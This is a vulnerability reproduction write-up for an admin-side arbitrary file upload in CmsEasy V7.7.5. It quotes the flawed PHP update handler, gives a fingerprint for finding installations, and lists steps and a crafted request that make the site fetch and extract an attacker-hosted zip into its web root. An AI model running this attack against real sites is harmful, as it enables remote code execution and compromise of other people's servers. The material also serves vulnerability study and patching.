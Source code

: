 # CmsEasy update_admin.php Any file upload vulnerability in the background

## Vulnerability Description

There is a vulnerability to upload any file in the CmsEasy background. You can upload any file by encrypting the Url parameter through the file service.php

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">CmsEasy V7.7.5_20210919</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="cmseasyedit" </span>

## Environment construction

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313234956895.png)

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313234958829.png)

The vulnerable file is `lib/admin/update_admin.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632745397516-acc4d6fe-182d-4a3a-87f3-8d9b8299e81d.png)

The code to be noted is

```php
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

where unlockString and get_file methods are used

```php
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632746012776-5f9a2330-5289-4b8c-81c7-6f0a3a452979.png)

After writing, write the file in the upper directory, that is, the web root directory, create a compressed package and upload it to the accessible server.

```php
zip phpinfo.zip phpinfo.php
```

Construct a download request

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632746461754-efd8a8a5-d455-4ccd-b194-a8716a206640.png)

```php
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632746383961-7f2d63fc-2480-4604-8646-446503f857c6.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1632746435271-559c0cc2-38a7-4a8d-a24a-b6fd48180482.png)